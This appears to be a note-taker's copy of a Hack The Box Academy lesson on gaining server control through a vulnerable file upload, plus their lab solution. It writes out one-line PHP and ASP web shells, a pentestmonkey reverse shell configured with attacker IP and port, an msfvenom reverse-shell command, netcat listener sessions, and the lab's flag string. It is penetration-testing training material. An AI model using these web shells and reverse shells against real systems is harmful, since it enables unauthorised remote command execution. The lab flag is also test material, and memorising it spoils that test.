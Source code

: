 ﻿The final step in exploiting this web application is to upload the malicious script in the same language as the web application, like a web shell or a reverse shell script. Once we upload our malicious script and visit its link, we should be able to interact with it to take control over the back-end server.

---

## Web Shells

We can find many excellent web shells online that provide useful features, like directory traversal or file transfer. One good option forÂ `PHP`Â isÂ [phpbash](https://github.com/Arrexel/phpbash), which provides a terminal-like, semi-interactive web shell. Furthermore,Â [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)Â provides a plethora of web shells for different frameworks and languages, which can be found in theÂ `/opt/useful/seclists/Web-Shells`Â directory inÂ `PwnBox`.

We can download any of these web shells for the language of our web application (`PHP`Â in our case), then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell. For example, let's try to uploadÂ `phpbash.php`Â fromÂ [phpbash](https://github.com/Arrexel/phpbash)Â to our web application, and then navigate to its link by clicking on the Download button:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_bash.jpg)

As we can see, this web shell provides a terminal-like experience, which makes it very easy to enumerate the back-end server for further exploitation. Try a few other web shells from SecLists, and see which ones best meet your needs.

---

## Writing Custom Web Shell

Although using web shells from online resources can provide a great experience, we should also know how to write a simple web shell manually. This is because we may not have access to online tools during some penetration tests, so we need to be able to create one when needed.

For example, withÂ `PHP`Â web applications, we can use theÂ `system()`Â function that executes system commands and prints their output, and pass it theÂ `cmd`Â parameter withÂ `$_REQUEST['cmd']`, as follows:

Code:Â php

```php
<?php system($_REQUEST['cmd']); ?>
```

If we write the above script toÂ `shell.php`Â and upload it to our web application, we can execute system commands with theÂ `?cmd=`Â GET parameter (e.g.Â `?cmd=id`), as follows:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg)

This may not be as easy to use as other web shells we can find online, but it still provides an interactive method for sending commands and retrieving their output. It could be the only available option during some web penetration tests.

**Tip:**Â If we are using this custom web shell in a browser, it may be best to use source-view by clickingÂ `[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

Web shells are not exclusive toÂ `PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. ForÂ `.NET`Â web applications, we can pass theÂ `cmd`Â parameter withÂ `request('cmd')`Â to theÂ `eval()`Â function, and it should also execute the command specified inÂ `?cmd=`Â and print its output, as follows:

```asp
<% eval request('cmd') %>
```

We can find various other web shells online, many of which can be easily memorized for web penetration testing purposes. It must be noted thatÂ `in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g.Â `system()`), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.

---

## Reverse Shell

Finally, let's see how we can receive reverse shells through the vulnerable upload functionality. To do so, we should start by downloading a reverse shell script in the language of the web application. One reliable reverse shell forÂ `PHP`Â is theÂ [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)Â PHP reverse shell. Furthermore, the sameÂ [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)Â we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

Let's download one of the above reverse shell scripts, like theÂ [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), and then open it in a text editor to input ourÂ `IP`Â and listeningÂ `PORT`, which the script will connect to. For theÂ `pentestmonkey`Â script, we can modify linesÂ `49`Â andÂ `50`Â and input our machine's IP/PORT:


```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

Next, we can start aÂ `netcat`Â listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:

```shell-session
smoothment@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we successfully received a connection back from the back-end server that hosts the vulnerable web application, which allows us to interact with it for further exploitation. The same concept can be used for other web frameworks and languages, with the only difference being the reverse shell script we use.

---

## Generating Custom Reverse Shell Scripts

Just like web shells, we can also create our own reverse shell scripts. While it is possible to use the same previousÂ `system`Â function and pass it a reverse shell command, this may not always be very reliable, as the command may fail for many reasons, just like any other reverse shell command.

This is why it is always better to use core web framework functions to connect to our machine. However, this may not be as easy to memorize as a web shell script. Luckily, tools likeÂ `msfvenom`Â can generate a reverse shell script in many languages and may even attempt to bypass certain restrictions in place. We can do so as follows forÂ `PHP`:

```shell-session
smoothment@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

Once ourÂ `reverse.php`Â script is generated, we can once again start aÂ `netcat`Â listener on the port we specified above, upload theÂ `reverse.php`Â script and visit its link, and we should receive a reverse shell as well:

```shell-session
smoothment@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with theÂ `-p`Â flag and specify the output language with theÂ `-f`Â flag.

While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead. This can be for several reasons, like having a firewall on the back-end network that prevents outgoing connections or if the web server disables the necessary functions to initiate a connection back to us.


# Question
---

![Pasted image 20250206144627.png](../../../../IMAGES/Pasted%20image%2020250206144627.png)

We can upload a file with the following contents:

```php
<?php system($_GET['cmd']); ?>
```

This is a basic webshell, since the validation of uploaded files is none, we can upload this with no problem. 

The output is the following:

![Pasted image 20250206144813.png](../../../../IMAGES/Pasted%20image%2020250206144813.png)

We can execute commands in the back-end server, let's look around for a flag, it would be easier to fire up burp so let's do it:

If we use `ls+/`, we can see the following:

```
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

So, we can simply read the flag by doing:

```
cat+/flag.txt
```

```
HTB{g07_my_f1r57_w3b_5h3ll}
```

